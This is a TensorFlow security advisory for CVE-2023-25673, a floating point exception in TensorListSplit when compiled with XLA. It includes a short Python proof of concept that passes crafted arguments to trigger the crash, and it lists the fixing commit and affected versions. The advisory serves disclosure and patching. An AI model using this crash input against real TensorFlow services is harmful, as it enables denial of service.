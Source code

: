 ## TFSA-2023-011: FPE in TensorListSplit with XLA 

### CVE Number
CVE-2023-25673

### Impact
FPE in TensorListSplit with XLA 
```python
import tensorflow as tf

func = tf.raw_ops.TensorListSplit
para = {'tensor': [1], 'element_shape': -1, 'lengths': [0]}

@tf.function(jit_compile=True)
def fuzz_jit():
 y = func(**para)
 return y

print(fuzz_jit())
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx